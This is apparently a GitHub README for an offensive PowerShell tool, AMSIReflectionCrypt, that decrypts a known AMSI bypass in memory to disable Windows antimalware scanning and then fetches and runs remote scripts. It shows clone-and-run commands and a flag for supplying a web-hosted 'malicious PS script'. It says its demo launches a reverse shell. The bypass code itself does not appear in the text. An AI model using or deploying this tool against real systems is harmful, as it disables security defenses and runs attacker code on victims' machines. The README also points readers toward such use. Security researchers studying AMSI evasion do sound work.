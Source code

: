 # AMSIReflectionCrypt
Forcing AMSI Fail by Decrypting 'Matt Graebers one-liner AMSI bypass' in memory [AES-128]
and invoke PowerShell command execution from remote scripts after AMSI is bypassed.

in the example shown, the bypass is used to Invoke a reverse shell after AMSI is bypassed:

![ezgif com-resize (2)](https://user-images.githubusercontent.com/91469978/229790638-09003b42-08cd-4a4f-9a43-db74ee5ff4e9.gif)

# Usage
```
  git clone https://github.com/M0M3NTUM44/AMSIReflectionCrypt.git
  cd AMSIReflectionCrypt
  .\AMSIReflectionCrypt.ps1 -h
```
 * -ts  Invoke the TestScript.ps1 from GitHub.
```
.\AMSIReflectionCrypt.ps1 -ts
```
 * -u   Full path to your web hosted malicious PS script (Default - TestScript.ps1 from GitHub).
```
.\AMSIReflectionCrypt.ps1 -u https://PATH/TO/script.ps1
```
The TestScript.ps1 file simply types "amsiutils" (flagged string) to the terminal to test if AMSI detection was Bypassed.

# Credits & Resources
* https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
* https://twitter.com/mattifestation
